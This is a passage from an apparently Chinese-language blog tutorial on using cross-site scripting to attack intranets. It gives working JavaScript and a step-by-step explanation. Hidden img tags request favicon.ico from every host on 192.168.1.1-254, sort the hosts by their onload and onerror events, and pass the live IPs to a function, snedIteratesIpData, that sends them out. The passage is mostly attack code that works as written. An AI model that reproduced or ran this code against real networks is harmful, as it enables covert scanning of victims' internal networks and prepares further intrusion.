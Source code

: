 ![](/images/use-xss-automation-invade-intranet/2.png)

后面的.104被我们去掉了。然后利用for循环来遍历192.168.1.1~192.168.1.254
现在我们来运行
```javascript
for(var i = 0;i < ipList.length;i++){
    incompleteIp = ipList[i].split(".");
    incompleteIp.pop();
    incompleteIp = incompleteIp.join(".");
    for(var j = 1;j < 255;j++){
        var ip = incompleteIp + "." + j;
        var imgTag = document.createElement("img");
        imgTag.setAttribute("src","http://" + ip + "/favicon.ico");
        imgTag.setAttribute("onerror","javascript:deathIpLIst.push('"+ip+"')");
        imgTag.setAttribute("onload","javascript:survivalIpLIst.push('"+ip+"')");
        imgTag.setAttribute("style","display:none;");
        document.getElementsByTagName("body")[0].appendChild(imgTag);
    }
}
```
这段代码：

![](/images/use-xss-automation-invade-intranet/3.png)

这是控制台的效果，我们来看下DOM发生了哪些变化把：

![](/images/use-xss-automation-invade-intranet/4.png)

这里我使用的是`http://192.168.1.xxx/favicon.ico`来判断内网哪些IP开启了80端口，并且上面运行着站点。
其中的`onerror="javascript:deathIpLIst.push('192.168.1.xxx')"`是如果此IP没有开启80端口，或者开启了80端口，但是没有运行站点的话，就调用把当前的IP地址push到deathIpLIst变量里。如果存在的话就push到survivalIpLIst变量里，也就是这段代码：`onload="javascript:survivalIpLIst.push('192.168.1.1')"`
至于为什么要这么做呢，这里就要涉及一个坑了。浏览器是不会你加载了哪些图片就立刻告诉你哪些图片是可以访问，哪些图片是不能访问的，浏览器需要一个缓冲的时间。检测同一网段里254个主机是否存在favicon.ico，大约需要花费550000ms===550s约等于2.16535s/IP。也就是9.16多分钟。也就是全部检测完需要等待9.16分钟。这也是没办法的事，改变不了。
至于下面为什么要使用`setTimeout("iteratesIp()",20000);`来延迟20秒执行呢，因为WebRTC获取IP需要一定的时间，其实几秒钟就好了。但是为了提高容错率我把时间提高到20秒的时间，如果你嫌慢，可以在文章结尾下载源代码，修改。
还有一段代码是这样的：
```javascript
(function(){
    if(deathIpLIst.length + survivalIpLIst.length == 254){
        snedIteratesIpData(survivalIpLIst);
    }else{
        setTimeout(arguments.callee,5000);
    }
})();
```
这就是为什么我之前要把80端口不存在的IP放到一个数组变量里，存在80端口的IP放到一个数组变量里。因为我不确定他们什么时候好，之前说的9.1分钟，只是一个大概时间，因电脑配置、内网通讯速度等其他的原因可能会提前，也可能会更慢。我无法做出保证。所以写了一段代码。下面我来说说这段代码的意思：
```javascript
(function(){
    /*coding*/
})();
```
是一段匿名函数，当代码运行到此处时会立刻执行此函数。
函数里面首先是判断deathIpLIst.length + survivalIpLIst.length是否等于254。如果等于254则调用snedIteratesIpData函数，并把开启80端口并运行站点的IP作为参数发送过去。如果不等于说明浏览器还没有把所有的图片都给判断好。进入else分之。
`setTimeout(arguments.callee,5000);`是延迟5秒钟运行arguments.callee。而arguments.callee的意思是当前函数。我们来实际看下：
